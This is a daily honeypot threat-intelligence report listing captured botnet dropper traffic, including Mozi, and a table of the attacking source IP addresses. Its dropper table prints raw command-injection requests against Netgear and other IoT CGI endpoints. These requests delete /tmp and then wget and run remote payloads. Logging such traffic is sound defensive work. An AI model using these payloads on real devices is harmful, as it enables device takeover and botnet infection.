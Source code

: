 ```yaml
---
title: "Report: 2025-01-20 "
date: 2025-01-20
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-01-20

Here is a list of informations we have collected through our honeypots for today. We get some [Mozi](https://malpedia.caad.fkie.fraunhofer.de/details/elf.mozi) dropper and various dropper for Netgear and other IOT equipment.
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## botnet_dropper_behaviour
|    | remote_addr    | request                                                                                                                                                                   |
|---:|:---------------|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  0 | 139.5.1.90     | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                     |
|  1 | 223.152.98.146 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
|  2 | 13.212.193.97  | GET /login.cgi?cli=aa%20aa%27;wget%20http://104.248.224.147/sh%20-O%20-%3E%20/tmp/kh;sh%20/tmp/kh%27$ HTTP/1.1                                                            |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                    71 | 95.214.55.39    |
|   1 |                    58 | 92.255.57.58    |
|   2 |                    45 | 89.169.175.126  |
|   3 |                    45 | 147.93.1.100    |
|   4 |                    45 | 111.53.239.122  |
|   5 |                    45 | 176.99.190.9    |
|   6 |                    37 | 78.153.140.151  |
|   7 |                    36 | 146.19.24.168   |
|   8 |                    35 | 78.153.140.179  |
|   9 |                    34 | 146.19.24.18    |
|  10 |                    28 | 5.181.190.248   |
|  11 |                    24 | 78.153.140.149  |
|  12 |                    23 | 95.214.55.43    |
|  13 |                    21 | 185.196.220.253 |
|  14 |                    20 | 109.236.61.63   |
|  15 |                    18 | 179.43.191.146  |
|  16 |                    18 | 46.19.138.234   |